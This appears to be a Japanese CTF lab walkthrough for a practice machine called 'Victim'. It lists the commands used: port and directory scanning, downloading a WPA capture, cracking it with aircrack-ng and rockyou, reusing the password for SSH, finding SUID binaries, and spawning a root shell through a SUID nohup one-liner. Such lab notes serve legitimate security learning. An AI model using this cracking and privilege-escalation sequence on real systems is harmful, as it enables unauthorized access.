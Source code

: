 ## Victim
### 事前準備
  - rockyou.txt.gzファイルを解凍する
  - gunzip /usr/share/wordlists/rockyou.txt.gz 
### ポートスキャンまでは同じ
- `fping`を受け付けないこともあるので、`arp-scan`を使う
- ポート22, 80, 8080, 8999, 9000が開いている

### ブラウザで80,8080,8999の各サイトを見てみる
- html,robots.txt

### gobusterで80, 8080を見る   
- `gobuster dir -u 192.168.56.106 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50`
  - `-x`のオプションがあると、時間が4倍になる 
  - `-u` オプションは、リンクの次から順に検索していく
  - `-t`はスレッドの数を指定できる。デフォルトは10で、50だと３割くらい早くなる
- 8080ポートでもやってみる、この場合はhttp://$IP:8080。するとpasswordsテキストがある。中身を見てみると、、

### pcapファイルを取得
  - pcapファイルを取得する方法は２つある
  1. 8999ポートのブラウザにアクセスしてWPA-01.capファイルをダウンロードする
  2. `wget http://192.168.56.106:8999/WPA-01.cap`

### wiresharkを起動して中身をチェックする
- `wireshark  WPA-01.cap`とターミナルで入力
- 全体を見るために、Statics -> Protocol Hierarchyを見る
- wireless LANとあることから、wifiのパケットであることがわかる
- SSIDは無線LANの識別IDで要はユーザ名のことで、ここではdlinkというユーザがいることがわかる
- 暗号化がwpa1で弱いことがわかる

### 暗号解読
- 次の2つは辞書が異なるだけで、どちらでもできる
- 本に書いてるの
  - `aircrack-ng WPA-01.cap -w /usr/share/wordlists/rockyou.txt`
  - パスワードがわかる
- ParrotOSにはwifi専用のパスワード辞書があるので、それでやってみる
  - `aircrack-ng WPA-01.cap -w /usr/share/wordlists/wifite.txt` 
### sshで接続する
  - ユーザとwifiのパスワードをsshでも使い回していると仮定してssh接続をする
  - OSを特定する
  - 個人で使える管理者権限を調べる

### SUIDファイルを特定する
  - `find / -perm -4000 -ls 2> /dev/null`
  - `-ls`はロングフォーマットで表示する
### nohupコマンドでルートシェルを奪う
  - `nohup /bin/sh -p -c "sh -p < $(tty) > $(tty) 2> $(tty)"`
  - nohupコマンドはターミナルを閉じてもコマンドは継続して実行したいときに使うコマンド
  - -pは実ユーザと実際のユーザが異なる時につけるオプション
  - $(tty)はドルパーレンと呼ぶ、単に先にコマンドを実行しているだけ
### rootを取得
  - `cd /root`
  - `ls`
  - `cat flag.txt`
